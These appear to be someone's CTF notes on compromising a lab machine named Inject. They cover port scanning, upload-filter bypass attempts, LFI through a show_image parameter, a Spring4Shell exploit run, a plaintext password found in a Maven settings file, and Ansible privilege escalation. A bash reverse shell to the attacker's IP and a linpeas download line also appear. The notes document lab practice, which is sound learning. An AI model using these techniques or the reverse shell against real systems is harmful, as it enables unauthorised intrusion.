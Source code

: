 # nmap

ORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy



---------------------Starting Script Scan-----------------------
                                                                                                                   


PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


at 8080 website is open

upload at /upload

![](20230621000431.png)

only image files are accepted.

10.10.16.24

things that can be done to bypass

Just uploading .php file instead of jpg file.

Trying double extensions to bypass and upload php file pic.jpg.php or pic.php.jpg

Changing Content-type filtering i.e., changing Content-Type: txt/php to image/jpg

Tried Case sensitives — pic.PhP also tried pic.php5, pHP5.

Tried special characters to bypass pic.php%00 , pic.php%0a, pic.php%00

![](20230621003609.png)

able to upload by just chaninf the location

```
/register             (Status: 200) [Size: 5654]
/blogs                (Status: 200) [Size: 5371]
/upload               (Status: 200) [Size: 1857]
/environment          (Status: 500) [Size: 712]
/error                (Status: 500) [Size: 106]
/release_notes        (Status: 200) [Size: 1086]
/http%3A%2F%2Fwww     (Status: 400) [Size: 435]
/show_image           (Status: 400) [Size: 194]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 435]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 435]
/http%3A%2F%2Fblog    (Status: 400) [Size: 435]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 435]
/External%5CX-News    (Status: 400) [Size: 435]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 435]
/http%3A%2F%2Fradar   (Status: 400) [Size: 435]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 435]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 435]
/http%3A%2F%2Fswik    (Status: 400) [Size: 435]
```

there is something in th upload feature.

try for lfi

http://10.10.11.204:8080/show_image?img=rev.php.png

http://10.10.11.204:8080/show_image?img=20230621000431.png

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601

http://10.10.16.24:8000/linpeas.sh  


LFI exploit

![](20230621020826.png)

after checking we found that the MAven framework has spring4shell exploit

so lets try and create a poc around that


frank@inject:~/.m2$ cat settings.xml
cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>

https://www.nickczh.com/upgrading-your-shell/
upgrading shell

python3 -c "import pty; pty.spawn('/bin/bash')"

ansible privilege escalation

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/?ref=nickczh.com

bash -c "bash -i >& /dev/tcp/10.10.16.24/443 0>&1"

└─$ python3 afterglow.py http://10.10.11.204:8080/ 10.10.16.24 1234
python3 afterglow.py http://10.10.11.204:8080/ 10.10.16.24 1234   

# lessons 

1. Always check for LFI









